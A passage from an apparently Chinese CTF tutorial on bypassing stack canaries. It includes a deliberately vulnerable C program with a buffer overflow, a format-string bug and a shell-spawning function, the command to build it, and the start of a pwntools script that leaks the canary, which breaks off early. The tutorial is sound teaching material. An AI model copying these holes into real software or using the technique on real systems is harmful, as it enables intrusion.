 ```plain
#define THREAD_SET_STACK_GUARD(value) \
  THREAD_SETMEM (THREAD_SELF, header.stack_guard, value)
```

### Canary 绕过

#### 泄露栈中的 Canary

Canary 设计为以字节 `\x00` 结尾是为了保证 Canary 可以截断字符串。泄露栈中的 Canary 的思路是覆盖 Canary 的低字节，来打印出剩余的 Canary 部分。这种利用方式需要存在合适的输出函数，并且可能需要第一溢出泄露 Canary，之后再次溢出控制执行流程。

举个栗子：

存在漏洞的示例源代码如下：

```plain
// ex2.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void getshell(void) {
    system("/bin/sh");
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}
void vuln() {
    char buf[100];
    for(int i=0;i<2;i++){
        read(0, buf, 0x200);
        printf(buf);
    }
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln();
    return 0;
}
```

编译为 32bit 程序并关闭 PIE 保护（默认开启 NX，ASLR，Canary 保护）

```plain
$ gcc -m32 -no-pie ex2.c -o ex2
```

首先通过覆盖 Canary 最后一个 `\x00` 字节来打印出 4 位的 Canary 之后，计算好偏移，将 Canary 填入到相应的溢出位置，实现 Ret 到 getshell 函数中

```plain
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')

get_shell = ELF("./ex2").sym["getshell"]

io.recvuntil("Hello Hacker!\n")

# leak Canary
payload = b"A"*100
```